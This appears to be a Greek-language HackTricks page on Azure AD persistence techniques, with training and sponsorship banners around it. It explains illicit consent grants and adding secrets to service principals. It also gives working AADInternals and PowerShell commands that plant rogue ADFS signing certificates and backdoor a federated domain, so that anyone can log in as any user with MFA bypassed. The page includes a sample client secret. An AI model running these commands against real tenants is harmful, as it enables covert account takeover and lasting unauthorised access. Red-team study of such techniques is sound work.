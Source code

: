 # Az - Διατήρηση

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ κάνοντας υποβολή PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

### Παράνομη Χορήγηση Συγκατάθεσης

Από προεπιλογή, οποιοσδήποτε χρήστης μπορεί να εγγραφεί μια εφαρμογή στο Azure AD. Έτσι μπορείτε να εγγράψετε μια εφαρμογή (μόνο για τον στόχο ενοικιαστή) που χρειάζεται άδειες υψηλής επίδρασης με τη συγκατάθεση του διαχειριστή (να την εγκρίνετε αν είστε ο διαχειριστής) - όπως η αποστολή email εκ μέρους ενός χρήστη, διαχείριση ρόλων κλπ. Αυτό θα μας επιτρέψει να **εκτελέσουμε επιθέσεις phishing** που θα ήταν πολύ **επικερδείς** σε περίπτωση επιτυχίας.

Επιπλέον, θα μπορούσατε επίσης να αποδεχτείτε αυτήν την εφαρμογή με τον χρήστη σας ως έναν τρόπο να διατηρήσετε πρόσβαση σε αυτήν.

### Εφαρμογές και Αρχές Υπηρεσιών

Με τα προνόμια του Διαχειριστή Εφαρμογών, GA ή ενός προσαρμοσμένου ρόλου με δικαιώματα microsoft.directory/applications/credentials/update, μπορούμε να προσθέσουμε διαπιστευτήρια (μυστικό ή πιστοποιητικό) σε μια υπάρχουσα εφαρμογή.

Είναι δυνατόν να **στοχεύσουμε μια εφαρμογή με υψηλές άδειες** ή να **προσθέσουμε μια νέα εφαρμογή** με υψηλές άδειες.

Ένας ενδιαφέρων ρόλος που μπορεί να προστεθεί στην εφαρμογή είναι ο **Ρόλος Διαχειριστή Προνομιούχας Ταυτοποίησης** καθώς επιτρέπει την **επαναφορά κωδικού πρόσβασης** των Γενικών Διαχειριστών.

Αυτή η τεχνική επίσης επιτρέπει τη **ξεπερασμένη Πολυπαραγοντική Ταυτοποίηση**.
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Για πιστοποίηση με βάση πιστοποιητικό
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Ομοσπονδία - Πιστοποιητικό Υπογραφής Διακριτικού

Με **προνομιούχες DA** στο on-prem AD, είναι δυνατόν να δημιουργήσουμε και να εισαγάγουμε **νέα πιστοποιητικά υπογραφής διακριτικού** και **αποκρυπτογράφησης διακριτικού** που έχουν μεγάλη ισχύ. Αυτό θα μας επιτρέψει να **συνδεθούμε ως οποιοσδήποτε χρήστης** του οποίου γνωρίζουμε το ImuutableID.

**Εκτελέστε** την παρακάτω εντολή ως **DA στους διακομιστές ADFS** για να δημιουργήσετε νέα πιστοποιητικά (προεπιλεγμένος κωδικός 'AADInternals'), προσθέστε τα στο ADFS, απενεργοποιήστε την αυτόματη ανανέωση και επανεκκινήστε την υπηρεσία:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Στη συνέχεια, ενημερώστε τις πληροφορίες πιστοποιητικού με το Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Ομοσπονδία - Έμπιστος τομέας

Με προνόμια GA σε έναν ενοικιαστή, είναι δυνατόν να **προστεθεί ένας νέος τομέας** (πρέπει να επαληθευτεί), να διαμορφωθεί ο τύπος πιστοποίησης του σε Ομοσπονδωμένο και να διαμορφωθεί ο τομέας για να **εμπιστευτεί ένα συγκεκριμένο πιστοποιητικό** (οποιοδήποτε.sts στην παρακάτω εντολή) και εκδότη:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Αναφορές

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
